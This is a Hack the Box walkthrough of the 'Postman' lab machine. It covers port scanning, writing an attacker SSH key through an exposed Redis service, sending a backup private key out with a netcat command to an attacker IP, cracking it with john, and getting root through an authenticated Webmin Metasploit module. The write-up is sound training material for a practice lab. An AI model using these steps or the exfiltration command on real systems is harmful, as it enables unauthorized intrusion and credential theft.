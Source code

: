 +++
author = "Nick"
categories = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
date = 2020-03-14T10:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/03/postman.png"
slug = "hack-the-box-postman"
summary = "Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!"
tags = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
title = "Hack the Box - Postman"

+++


Welcome back! Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!

As normal, we start with an ```nmap``` scan: 

```nmap -sC -sV -T4 -p- -oA all_scan 10.10.10.160```

Here are our results:
```
Nmap scan report for 10.10.10.160
Host is up (0.053s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.88 seconds
```

Some interesting results, we see ```Redis``` and ```Webmin``` being hosted. Let's see what is on port 80 first.

We are greeted by a basic landing page. Nothing really in the source either. We will now see what is on port 10000. When we browse there we are told that we need to go to ```Postman:10000``` in order to view whats going on. So we add ```postman``` to our host file and browse over.

![](/images/2019/12/image-23.png)

We see a Webmin login page.

![](/images/2019/12/image-24.png)

We try the standard credentials and they don't work. A quick ```searchsploit``` gives us some results.

![](/images/2019/12/image-25.png)

However none of the RCE's work and the others are authenticated exploits. With a seemingly dead end there, we look to the ```Redis``` port. Some quick googling shows [there is a vulnerablity here](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). So to fully leverage this, we'll need the ```Redis-CLI``` tools installed. Here's a [handy link](https://codewithhugo.com/install-just-redis-cli-on-ubuntu-debian-jessie/) for that!

With our tools installed we can now replicate this exploit. The only catch is, we don't know a user. If we google around enough we find some posts about people having a ```/var/lib/redis``` location. We can use that as our starting point. If there is a file with that name, we can hope there might be a ```.ssh``` directory too, since you know, this is a CTF ;).

We connect via ```redis-cli``` and issue the following command to check the directory.

Command:
```config set dir /var/lib/redis```

![](/images/2019/12/image-26.png)

Looks like it is a viable location. We repeat with the ```.ssh``` location.

![](/images/2019/12/image-27.png)

That too worked. So we can follow the steps in our exploit! First we generate a new ssh key with ```ssh-keygen```.

![](/images/2019/12/keygen.gif)

We then pad the key with some spaces. Then read it to memory and dump it to the ```authorized_keys``` file accoring to our exploit document.

![](/images/2019/12/redis_exploit.gif)

Now we should be able to SSH in as redis.

![](/images/2019/12/image-28.png)

Success! We now can see if we have access to user.txt but we don't. So we download ```linenum``` and start enumerating. One file is of interest. ```id_rsa.bak```.

![](/images/2019/12/image-29.png)

We then transfer this file back to our machine. We can use ```netcat``` for this:

On our attacking machine we spin up a listener:
```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

On our server we send the file:
```cat id_rsa.bak | nc 10.10.14.119 9999```

Once we have the file, we can send it through ```ssh2john``` to convert it to a proper format for cracking.

![](/images/2019/12/image-30.png)

We can now send this file into ```john``` and use ```rockyou.txt``` to hopefully crack it.

Command:
```john --wordlist=/usr/share/wordlists/rockyou.txt stolen_key```

![](/images/2019/12/john.gif)

We get a password of ```computer2008```. We can switch back to our redis ssh session and use ```su Matt``` and the password we just found to get user access and the ```user.txt``` file. We enumerate a bit more as Matt now but don't see all that much. However, thinking like a user might be good here. This password might be reused. Head over to the Webmin portal with those credentials and we have access!

This means we can use one of our authenticated exploits we saw earlier to elevate. In this case we'll just go down the list, the first is the ```webmin_packageup_rce```.  We load the module and set our options. We require a few this time, ```Password```, ```rhosts```, ```ssl```, ```username``` and ```lhost```

![](/images/2019/12/image-22.png)

We get all our settings set and let it rip!

![](/images/2019/12/postman_root.gif)

There we have it, root access!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

